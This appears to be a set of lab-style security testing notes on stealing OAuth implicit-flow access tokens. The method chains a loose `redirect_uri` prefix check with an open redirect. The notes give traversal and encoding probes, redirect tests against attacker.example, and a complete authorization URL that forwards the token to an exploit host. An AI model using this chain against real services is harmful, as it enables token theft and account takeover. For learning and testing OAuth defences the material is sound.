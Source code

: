 ## Encounters

### Steal an OAuth token via redirect

Risk: Flawed `redirect_uri` validation combined with a client-side open redirect enables theft of OAuth access tokens (typically implicit flow: `response_type=token`). Tokens appear in the URL fragment and must be exfiltrated via JavaScript.

Assumptions
- Victim is authenticated at the OAuth provider (IdP) and will click links you send (exploit server or phishing).
- Client uses an allowlist for `redirect_uri` but performs weak validation (e.g., prefix/startsWith check), allowing path traversal or parameter smuggling.
- The client application contains an open redirect (e.g., `GET /post/next?path=...`).

High-level attack chain
1) Start OAuth flow at the IdP `/auth` endpoint.
2) Point `redirect_uri` to a same-origin path that you can pivot through (e.g., `.../oauth-callback/../post/next?path=`) so it passes the allowlist.
3) Use the open redirect to forward the browser to your exploit server.
4) IdP appends the access token as a URL fragment (`#access_token=...`).
5) Your exploit page reads the fragment and exfiltrates it (fragments aren’t sent to servers automatically).
6) Use the stolen token at the client’s API (for example, `GET /me` with `Authorization: Bearer <token>`) to retrieve sensitive data (e.g., admin API key).

Hunting methodology (repeatable)
1) Baseline the OAuth flow
   - Log in with test creds and proxy (Burp/ZAP). Capture: `GET /auth?client_id=...&redirect_uri=...&response_type=...` and the subsequent callback.
   - Send the client’s token-using API call (often `GET /me`) to Repeater for later token swap testing.

2) Probe `redirect_uri` validation
   - Try suffixing the allowlisted callback with benign characters or traversal:
     - `/oauth-callback/..`
     - `/oauth-callback/../post?postId=1`
     - Encoded variants: `%2e%2e/`, `..%2f`, `%2f..%2f`
   - If exact external domains are blocked, confirm that appended path segments still pass validation (classic prefix/startsWith bug).

3) Find a client-side open redirect
   - Crawl for endpoints like `/post/next?path=...`, `/redirect?url=...`, `/login?next=...`.
   - Verify absolute URL redirects: `https://attacker.example/exploit`. Also try protocol-relative `//attacker.example/` and encoded forms.

4) Chain the bugs
   - Build an IdP authorization URL that sets `redirect_uri` to a same-origin path-traversal into the open redirect, which forwards to your exploit page.

Example chain (replace placeholders):
```
https://{IDP_HOST}/auth?client_id={CLIENT_ID}&redirect_uri=https://{LAB_HOST}/oauth-callback/../post/next?path=https://{EXPLOIT_HOST}/exploit&response_type=token&nonce={RAND}&scope=openid%20profile%20email
```

